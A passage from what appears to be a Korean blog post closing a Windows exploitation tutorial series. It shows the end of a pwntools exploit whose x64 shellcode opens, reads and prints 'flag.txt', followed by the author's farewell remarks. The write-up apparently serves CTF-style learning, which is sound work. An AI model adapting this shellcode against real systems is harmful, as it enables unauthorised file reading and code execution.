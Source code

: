 ```python
	mov rax, {createfile}
	call rax
readfile:
	mov qword ptr [rsp + 0x20], 0
	lea r9, [rsp + 0x200]
	mov r8, 0x100
	lea rdx, [rsp + 0x100]
	mov rcx, rax
	mov rax, {readfile}
	call rax
writefile:
	mov qword ptr [rsp + 0x20], 0
	lea r9, [rsp + 0x200]
	mov r8, 0x100
	lea rdx, [rsp + 0x100]
	mov rcx, {stdout}
	mov rax, {writefile}
	call rax
loop:
	jmp loop
readflag:
	call flag
'''

shellcode = (asm(shellcode) + "flag.txt\x00").ljust(0x100,"\x90")
p.send(shellcode)
p.interactive()
```

![pwncoolsexy-part5/Untitled%207.png](pwncoolsexy-part5/Untitled%207.png)

험난했다... 



# 마무리

드디어 폰쿨섹시 시리즈 마지막 글까지 모두 끝났습니다 짞짝ㅉㅏㄱ !  

![pwncoolsexy-part5/Untitled%201.png](pwncoolsexy-part5/Untitled%201.png)

오랜만에 Part 1 글을 보면서 시리즈 목표를 다시 봤는데.. 원래 계획에 딱 맞게 Part 5로 마무리됐네요. 사실 거의 무계획이나 다름없었는데 다행이다 휴ㅎ; 

![pwncoolsexy-part5/Untitled%202.png](pwncoolsexy-part5/Untitled%202.png)

약 3개월간 진행한 정든 시리즈를 떠나보내며.. 이 글이 윈도우를 처음 시작하시는 분들께 많은 도움이 되었으면 좋겠습니다. 이제 다음은 뭘 할지 고민해야 하는데 아 뭐하지 ㅁㄴㅇㄹ 

그럼 한동안은 그동안 봐 두었던 번역글과 하루한줄로 돌아오겠습니다! 

+ 모든 시리즈 글의 오류 및 오타 지적은 언제나 환영입니다

![pwncoolsexy-part5/Untitled%203.png](pwncoolsexy-part5/Untitled%203.png)

> 진짜 끝!